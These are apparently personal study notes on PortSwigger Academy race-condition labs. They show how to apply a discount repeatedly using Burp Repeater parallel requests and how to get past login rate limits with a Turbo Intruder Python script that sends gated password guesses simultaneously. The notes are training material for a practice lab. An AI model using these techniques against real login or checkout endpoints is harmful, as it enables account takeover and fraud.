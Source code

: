 # Race Conditions  

## Limit overrun race conditions  

>[PotSwigger Academy - Limit overrun race conditions](https://portswigger.net/web-security/learning-paths/race-conditions/race-conditions-limit-overrun/race-conditions/limit-overrun-race-conditions-r6f5)  

>Identify potential attack vector in a single-use or rate-limited endpoint that has some kind of security impact.  
>Methodology of Server-side jitter is useful during the initial discovery enumeration of Race conditions attacks.  
>Attacking "time-of-check to time-of-use" (TOCTOU) flaws.  

>Trigger race conditions custom action using Burp Suite Professional.  

## Identify Race Condition Creteria  

>Without a session cookie, can only access an empty cart.  
>From this, can infer that:  

* State of the cart is stored server-side in logged in session.  
* Any operations on the cart are keyed on session ID or associated user ID.  

![portswigger_race_condition_prep.png](/images/portswigger_race_condition_prep.png)  

>Prepare the race condition duplicate similtaneous requests:  

1. In Repeater, add the new tabs to a new group. 
2. Right-click the grouped tab `Race-Condition-Group` then select Duplicate tab. 
3. Create 19 duplicate tabs, are automatically added to the group.  
4. Send the group of requests in ***parallel***, using `single-packet attack` to apply discount multiple times at once.  

![portswigger_race_condition_prep_seperate_connections.png](/images/portswigger_race_condition_prep_seperate_connections.png)  

>Click ***Send group(parallel)*** button in repeater group.  

>Results in cart page, after refresh your cart and confirm that the 20% reduction has been applied more than once, result of race condition attack.  

## Bypass Rate Limits via race conditions  

>Target rate limiting defend against brute-force attacks to obtain passwords.  
>Deduce that the number of failed attempts per username must be stored server-side.  

>***indentify brute force race condition***  

>Enumerate possible race condition attack by sending multiple grouped request in parallel,  
>and notice that more than 3 responses contain same message `Invalid username or password`,  
>instead of the lockout message, suggesting race condition possible.  

### Turbo Intruder  

>Highlight the value of the password `%s`, and Send the login password request to ***Turbo Intruder*** extension.  

![portswigger_race_condition_rate_limit_turboIntruder.png](/images/portswigger_race_condition_rate_limit_turboIntruder.png)  

```python
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')

def handleResponse(req, interesting):
    table.add(req)
```  

>Copy passwords wordlist into clipboard.  
>click ***Attack***  

>Study the responses, for a successful login `HTTP/2 302 Found`, wait for lockout to reset.  

![portswigger_race_condition_rate_limit_turboIntruder_brute_force.png](/images/portswigger_race_condition_rate_limit_turboIntruder_brute_force.png)  

>Brute force login using race condition attack successful.  

## Hidden multi-step sequences  

>[PortSwigger Race Condition - Logic Flaws](https://portswigger.net/web-security/learning-paths/race-conditions/race-conditions-hidden-multi-step-sequences/race-conditions/hidden-multi-step-sequences)  

>Expose time-sensitive variations of the kinds of logic flaws  

